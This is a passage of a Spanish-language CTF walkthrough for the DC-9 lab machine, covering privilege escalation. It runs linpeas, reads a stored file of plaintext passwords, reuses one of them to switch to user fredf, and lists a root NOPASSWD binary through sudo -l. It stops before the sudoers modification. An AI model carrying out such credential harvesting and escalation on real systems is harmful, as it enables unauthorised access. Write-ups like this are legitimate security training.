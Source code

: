 Damos permisos de ejecución con `chmod +x linpeas.sh` y ejecutamos el script `./linpeas.sh` a ver que nos muestra. El script arroja mucha información de posibles vías, pero parece que a encontrado un arvchivo.txt con contraseñas que janitor fue encontrando en post-its de los compañeros. 

Abrimos este archivo a ver que nos puede servir

```shell
cat /home/janitor/.secrets-for-putin/passwords-found-on-post-it-notes.txt
```
```output
-- output --

BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```


Probando estas contraseñas para [otros usuarios](https://github.com/tryto-deeb/CTF-WriteUps/blob/master/DC-9/Write-up%20DC-9.md#dumpear-filas-de-username-y-password) vemos que la contraseña *B4-Tru3-001* pertenece a **fredf** que tiene el puesto de System Administrator.

Nos cambiamos al usuario **fredf** con el comando `su fredf`.<br>
<br>


## Archivo con permisos root para modificar /etc/sudoers
<br>

Comprobamos si tiene permisos con privilegios de administrador

```shell
sudo -l
```
```output
-- output --

Matching Defaults entries for fredf on dc9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```


Parece que el archivo `/opt/devstuff/dist/test/test` se puede ejecutar como **root** sin necesidad de contraseña
<br>

Ejecutamos el archivo

```shell
/opt/devstuff/dist/test/test
```
```output
-- output --

Usage: python test.py read append
```
